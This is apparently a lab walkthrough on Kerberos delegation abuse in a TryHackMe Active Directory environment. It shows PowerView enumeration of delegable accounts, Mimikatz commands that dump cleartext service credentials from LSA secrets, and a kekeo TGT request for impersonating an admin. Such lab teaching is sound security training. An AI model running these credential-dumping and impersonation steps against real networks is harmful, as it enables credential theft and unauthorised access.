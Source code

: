 
## Resource-based Constrained Delegation
o there are actually three types of Kerberos Delegation. But this one deserves to be mentioned on its own. Introduced by Microsoft in 2012, Resource-Based Constrained Delegation (RBCD) once again provided additional restrictions on Kerberos Delegation for security. RBCD changes the delegation model entirely. Instead of specifying which object can delegate to which service, the service now specifies which objects can delegate to it. This allows the service owner to control who can access it. In our web application example, this means that instead of specifying that the web service account can delegate to the database service to access the database, we can now specify that on the database service that the web service account is allowed to delegate access to it.

Let's say that we have permission to configure RBCD for a service. This means we have the ability to set the msDS-AllowedToActOnBehalfOfOtherIdentity attribute for the AD Object. We can populate this attribute with the details of an AD account that we have access to. To now gain access to the service, we can generate a TGT for the account we control, which will allow us to interact with this service. If you want a detailed example of RBCD exploitation, take a look [here](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/).

#### Constrained Delegation Exploitation
PowerShell

```shell-session
PS C:\>Import-Module C:\Tools\PowerView.ps1 
PS C:\>Get-NetUser -TrustedToAuth
```
Based on the output of this command, we can see that the svcIIS account can delegate the HTTP and WSMAN services on THMSERVER1. You would think that this means we can only access websites on behalf of impersonated users. However, PowerShell Remoting uses the HTTP and WSMAN services as well. The ideal option would be to impersonate a Tier 1 Admin since this would provide us with administrative access over THMSERVER1.

If you were to perform proper post-exploitation enumeration of THMWRK1, you would find that there is a service on the host running as the svcIIS user. Since we have administrative access now, we can use this to dump LSASecrets, part of the Windows Registry Hive where credentials are stored for features such as Windows services. Let's use [Mimikatz](https://github.com/gentilkiwi/mimikatz/security) to dump the secrets:

mimikatz # token::elevate

mimikatz # lsadump::secrets

- token::elevate - To dump the secrets from the registry hive, we need to impersonate the SYSTEM user.
- lsadump::secrets - Mimikatz interacts with the registry hive to pull the clear text credentials.

PS C:\> C:\Tools\kekeo\x64\kekeo.exe ___ _ kekeo 2.1 (x64) built on Dec 14 2021 11:51:55 / ('>- "A La Vie, A L'Amour" | K | /* * * \____/ Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com ) L\_ https://blog.gentilkiwi.com/kekeo (oe.eo) with 10 modules * * */ kekeo #

We first need to generate a TGT that can be used to generate tickets for the HTTP and WSMAN services:
```
kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:redacted
```
